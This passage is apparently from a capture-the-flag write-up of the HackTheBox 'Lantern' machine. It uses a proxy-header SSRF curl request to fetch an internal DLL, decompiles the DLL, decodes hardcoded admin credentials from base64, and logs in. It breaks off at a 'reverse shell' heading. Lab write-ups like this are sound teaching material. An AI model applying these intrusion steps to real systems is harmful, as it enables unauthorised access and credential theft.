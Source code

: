 ```bash
    "pdb": {
      "InternaLantern.pdb": "sha256-E8WICkNg65vorw8OEDOe6K9nJxL0QSt1S4SZoX5rTOY="
    },
    "runtime": {
      "dotnet.timezones.blat": "sha256-KsGUR9nqtXb3Hy6IrNlnc1HoSS+AFlsXTX9rq4oChtA=",
      "icudt.dat": "sha256-Zuq0dWAsBm6\/2lSOsz7+H9PvFaRn61KIXHMMwXDfvyE=",
      "icudt_CJK.dat": "sha256-WPyI4hWDPnOw62Nr27FkzGjdbucZnQD+Ph+GOPhAedw=",
      "icudt_EFIGS.dat": "sha256-4RwaPx87Z4dvn77ie\/ro3\/QzyS+\/gGmO3Y\/0CSAXw4k=",
      "icudt_no_CJK.dat": "sha256-OxylFgLJlFqixsj+nLxYVsv5iZLvfIKMpLf9hrWaChA=",
      "dotnet.wasm": "sha256-JlqjjT2GZWeJko9+pitVfjjmJeEbi4AibzTQr5zTISo=",
      "dotnet..lzvsyl6wav.js": "sha256-6AcYHsbEEdBjeNDUUvrQZuRqASd62mZgQgxz4uzTVGU="
    },
    "satelliteResources": null
  }
}#
```

`InternaLantern.dll`. Let's download this and have a look with `ilspycmd`.

```bash
#!/bin/bash
set -x
URL="http://lantern.htb/_framework/InternaLantern.dll"
HOST="lantern.htb"
PROXY="http://127.0.0.1:5000/"
USER_AGENT="Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0"

curl -o InternaLantern.dll -H "Host: $HOST" -H "X-Skipper-Proxy: $PROXY" -H "User-Agent: $USER_AGENT" -X GET \ $URL
```

```bash
ilspycmd InternaLantern.dll -o data
```

And we get a 854 lines decompile Csharp, let's read all of this. And we finally found some base64 strings.

[image](./base64.png)

And reading them :

```bash
echo 'U3lzdGVtIGFkbWluaXN0cmF0b3IsIEZpcnN0IGRheTogMjEvMS8yMDI0LCBJbml0aWFsIGNyZWRlbnRpYWxzIGFkbWluOkFKYkZBX1FAOTI1cDlhcCMyMi4gQXNrIHRvIGNoYW5nZSBhZnRlciBmaXJzdCBsb2dpbiE=' | base64 -d
System administrator, First day: 21/1/2024, Initial credentials admin:AJbFA_Q@925p9ap#22. Ask to change after first login!#
```

Great ! Lets's go back to port 3000 and try this creds.

[image](./admin.png)

And let's go ! We are inside !

### Upload reverse shell
